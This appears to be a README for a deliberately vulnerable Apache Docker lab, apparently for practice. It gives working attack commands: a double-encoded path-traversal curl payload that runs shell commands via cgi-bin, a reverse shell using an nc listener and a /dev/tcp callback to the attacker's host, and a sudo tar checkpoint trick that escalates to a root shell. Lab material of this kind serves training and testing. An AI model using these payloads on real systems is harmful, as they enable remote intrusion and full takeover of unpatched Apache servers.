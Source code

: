 # Build and start the vulnerable docker :

:warning: You have to run the build script with sudo or as root or as a user that is part of the docker group :warning:

```bash
./build.sh
```

# RCE via Apache server :

```bash
curl -s --path-as-is 'http://<host IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; whoami'
```

# Reverse shell via Apache Server :
##  Step 1 :
  
  On your host, set up a listener :

```bash
nc -nvlp <port>
```

##  Step2 :

  On your host, use curl to execute code on the Apache Server :

```bash
curl -s --path-as-is 'http://<host IP>:4444/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type: text/plain; echo; bash -c "/bin/sh -i >& /dev/tcp/<your host IP>/<your listener port> 0>&1"'
```

# Privesc

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
